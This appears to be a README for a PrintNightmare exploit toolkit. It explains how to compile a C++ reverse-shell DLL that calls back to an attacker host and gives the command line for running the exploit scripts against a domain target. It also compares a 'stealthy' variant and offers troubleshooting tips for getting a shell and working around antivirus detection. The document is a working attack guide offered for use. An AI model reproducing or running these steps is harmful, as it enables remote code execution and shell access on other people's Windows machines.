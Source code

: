 ## Custom simple C++ reverse shell example

1. Install C++ tools in visual studio.
2. Create new project with Dynamic-Link Libary template.
3. Download the plain_revshell.cpp file and paste the content into the existing template.
4. Update the RHOST & RPORT on StartCallback
5. Build the release (ctrl+shift+b)
6. Place the DLL in the payloads folder

```bash
BOOL WINAPI DllMain(HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
    switch (dwReason) {
    case DLL_PROCESS_ATTACH:
        StartCallback("172.16.0.137", 80); // <- update this
```

## Usage

```bash
python3 [MSPAR|MSRPRN|MSRPRN_nobrute].py 'domain/user:pass@ip' PrinterName '\\IP_of_SMB_share\share\printer.dll'
```

There are 3 different version. All versions have been updated to support a custom driver/printername.

| Version        | Info                                                                                                                     | When to use                                                                                                           |
| -------------- | ------------------------------------------------------------------------------------------------------------------------ | --------------------------------------------------------------------------------------------------------------------- |
| MSPAR          | Abuses MSPAR                                                                                                             | When ItWasAllADream says its vulnerable                                                                               |
| MSRPRN         | Abuses MSRPRN                                                                                                            | When ItWasAllADream says its vulnerable                                                                               |
| MSRPRN_nobrute | Abuses MSRPRN but does not brute force driver folders, see [this pull](https://github.com/cube0x0/CVE-2021-1675/pull/25) | When ItWasAllADream says its vulnerable but it does not seem to work and you tried everything listed in Errors & tips |

<br>

Do note that MSRPRN_nobrute is more ‘stealthy’ (in the sense that there is less activity on disk) but less forgiving. Each run of the exploit needs a new printer name and dll name if they have not been removed.

## Errors and Tips

| Error                                                                                                         | Solution                                                                                                                                                                             |
| ------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied                                                         | permissions on the file in the SMB share                                                                                                                                             |
| RPRN SessionError: unknown error code: 0x180                                                                  | Enable SMB2Support                                                                                                                                                                   |
| RPRN SessionError: code: 0x2: - ERROR_FILE_NOT_FOUND - The system cannot fil the file specified.              | Typo in supplied DLL ?                                                                                                                                                               |
| RPRN SessionError: code: 0xd8 - ERROR_EXE_MACHINE_TYPE_MISMATCH                                               | DLL is kaduk or wrong architect (x86 vs x64)                                                                                                                                         |
| RPRN SessionError: code 0xe1 - ERROR_VIRUS_INFECTED                                                           | AV caught you butt, try harder                                                                                                                                                       |
| RPRN SessionError: Unknown error code: 0x8001011b                                                             | Seems like the host is patched                                                                                                                                                       |
| RPRN SessionError: code: 0x43 ERROR_BAD_NET_NAME                                                              | Wrong share name used in printnightmare or typo in samba config                                                                                                                      |
| SMB SessionError: STATUS_PIPE_BROKEN                                                                          | Print spooler service crashed during payload execution. Restart the spooler if you got a shell (PowerShell -> Restart-Service spooler. CMD -> net stop spooler && net start spooler) |
| After killing the session the payload does not work a second time                                             | Always ensure the first thing you do is restart the spooler service upon a shell connect. If you did this, use a different printername. Otherwise ur fuk’d                           |
| Sometimes when removing the print drivers the dll will execute again. This means your payload will run again. | Nothing, just something to be aware of if you use a payload that adds a user or w.e.                                                                                                 |
